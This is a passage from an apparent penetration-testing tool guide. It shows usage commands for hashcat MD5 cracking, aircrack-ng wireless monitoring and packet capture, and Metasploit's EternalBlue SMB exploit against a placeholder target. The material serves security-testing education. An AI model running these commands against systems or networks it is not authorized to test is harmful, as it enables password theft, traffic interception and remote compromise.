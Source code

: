 ```bash
hashcat -m 0 -a 0 hash.txt wordlist.txt
```



This command attempts to crack MD5 hashes (-m 0) using a dictionary attack (-a 0) with the specified wordlist.



6. Wireless Attacks



With the prevalence of wireless networks, tools for testing wireless security are crucial.


#### 6.1 Aircrack-ng



Aircrack-ng is a complete suite of tools to assess WiFi network security. It focuses on different areas of WiFi security: monitoring, attacking, testing, and cracking.



Usage example:


```bash
airmon-ng start wlan0
airodump-ng wlan0mon
```



These commands start monitoring mode on the wireless interface and then capture packets from nearby wireless networks.



7. Exploitation Tools



These tools are used to exploit known vulnerabilities in systems or applications.


#### 7.1 Metasploit Framework



The Metasploit Framework is a powerful tool for developing, testing, and executing exploit code. It contains a large database of known vulnerabilities and associated exploit modules.



Usage example:


```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS target_ip
exploit
```

